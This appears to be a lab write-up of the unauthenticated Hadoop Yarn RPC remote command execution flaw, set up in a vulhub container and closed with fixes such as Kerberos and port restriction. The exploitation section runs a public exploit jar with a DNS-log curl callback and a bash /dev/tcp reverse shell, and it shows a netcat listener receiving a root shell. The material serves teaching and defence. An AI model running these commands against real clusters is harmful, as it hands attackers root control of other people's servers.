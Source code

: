 # Unauthorized Access Vulnerability in Hadoop Yarn RPC

## Vulnerability Overview

Hadoop Yarn, as one of the core components of Hadoop, is responsible for allocating resources to various clusters and running various applications, and scheduling the execution of tasks on different cluster nodes. Hadoop Yarn opens its RPC service to the public by default, and attackers can use the RPC service to execute arbitrary commands and control the server.

In addition, since the access control mechanism of Hadoop Yarn RPC service is different from that of REST API, even if there is authorization authentication in REST API, the port where RPC service is located can still be accessed without authorization.

## Environment Setup

> https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

You need to modify the docker-compose.yml to add the 8032 port mapping.

![image-20220726135831239](../../.gitbook/assets/image-20220726135831239.png)

Make a curl request to port 8032.

```
[root@localhost tmp]# curl http://192.168.32.183:8032
It looks like you are making an HTTP request to a Hadoop IPC port. This is not the correct port for the web interface on this daemon.
```



## Vulnerability Exploitation

EXP: https://github.com/cckuailong/YarnRpcRCE

```
[root@localhost YarnRpcRCE-master]# java -jar YarnRpcUnauth.jar 192.168.32.183:8032 "curl 0dccw6.dnslog.cn"
log4j:WARN No appenders could be found for logger (org.apache.hadoop.util.Shell).
log4j:WARN Please initialize the log4j system properly.
log4j:WARN See http://logging.apache.org/log4j/1.2/faq.html#noconfig for more info.
```

![image-20220726143734307](../../.gitbook/assets/image-20220726143734307.png)

View logs

![image-20220726144048169](../../.gitbook/assets/image-20220726144048169.png)

Reverse shell

```
[root@localhost YarnRpcRCE-master]# java -jar YarnRpcUnauth.jar 192.168.32.183:8032 "bash -i >& /dev/tcp/192.168.32.183/9999 0>&1"
```

Successful connection

```
[root@localhost tmp]# nc -lvp 9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.19.0.5.
Ncat: Connection from 172.19.0.5:59812.
bash: cannot set terminal process group (271): Inappropriate ioctl for device
bash: no job control in this shell
<00863_0003/container_1658816800863_0003_01_000001# whoami
whoami
root
<00863_0003/container_1658816800863_0003_01_000001# 
```



## Vulnerability Fix

1. The official Apache Hadoop recommends that users enable Kerberos authentication.
2. Set the port where Hadoop RPC service is located to be open only to trusted addresses.
3. It is recommended to upgrade and enable the authentication function of Kerberos to prevent unauthorized access.